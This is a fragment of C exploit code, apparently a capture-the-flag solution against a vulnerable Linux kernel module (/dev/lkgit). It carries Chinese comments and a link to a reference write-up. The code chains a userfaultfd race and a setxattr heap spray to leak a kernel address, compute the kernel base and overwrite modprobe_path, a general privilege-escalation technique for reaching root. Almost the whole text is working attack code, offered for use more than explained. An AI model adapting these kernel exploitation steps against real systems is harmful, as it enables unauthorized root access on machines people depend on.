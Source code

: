 ```c
        h2.message = "bbbb";
        h2.hash[0] = 0;
        hash_obj(&h2); // deleting h1's corresponding entry
        attr_buf[3] = modprobe_path;
        // occupy the freed space
        setxattr("/dev/null", "attr", attr_buf, 0x20, 0); // free 之后被申请出来
        
        // write /tmp/x to uffd_src_page_1
        char tmp_x[0x10] =  "/tmp/x";
        memcpy(uffd_src_page_1,tmp_x,0x10);
        uffdio_copy.src = uffd_src_page_1;
        uffdio_copy.dst = (unsigned long long) msg.arg.pagefault.address &
                                              ~(uffd_src_page_size - 1);
        uffdio_copy.len = PAGE_SIZE;
        uffdio_copy.mode = 0;
        uffdio_copy.copy = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == -1){
            printf("ioctl-UFFDIO_COPY");
            exit(-1);
        }
        break;
    }
}

int main(){
    save_status();
    f1=open("/dev/lkgit",2);
    page = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    // 如何把 log_object 放到一个 hash 在不会触发 pagefault 而 content 和 message 触发 pagefault 的地方
    void* lower_region = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    void* higher_region = mmap(lower_region + PAGE_SIZE, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
    registerUserfault(higher_region,fault_handler_thread);
    h1.content = "aaaa";
    h1.message = "bbbb";
    h1.hash[0] = 0x41;
    hash_obj(&h1);
    // put log_object to lower_region + 0xff0
    memcpy(lower_region + 0xfb0,h1.hash, 0x10);
    memcpy(hash, h1.hash, 0x10);
    get_obj((log_object*)(lower_region + 0xfb0)); // mark 一下在 copy message 处触发
    unsigned long long kernel_leak = *(long long *)(lower_region + 0xfb0 + 8);
    printf("kernel_leak: %p\n",kernel_leak);
    // modprobe path 还需要一个内核任意地址写 how can I do this?
    // 参考 https://blingblingxuanxuan.github.io/2023/03/02/230302-userfaultfd-and-setxattr-exercises/ ，
    // leak: 0xffffffffa056e800 base: 0xffffffff9f800000
    unsigned long long kernel_base_offset = kernel_leak - 0xa056e800+0x9f800000 - 0xFFFFFFFF81000000;
    printf("kernel_base: %p\n",kernel_base_offset);
    modprobe_path = kernel_base_offset + 0xFFFFFFFF81C3CB20;
    printf("modprobe_path: %p\n",modprobe_path);
    // do second pagefault
    void* lower_region_1 = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
    void* higher_region_1 = mmap(lower_region_1 + PAGE_SIZE, PAGE_SIZE, PROT_READ|PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
    registerUserfault(higher_region_1,fault_handler_thread_1);
    memcpy(lower_region_1 + 0xfb0,hash, 0x10);
    amend_obj((log_object*)(lower_region_1 + 0xfb0));
    // trigger
    get_flag();
```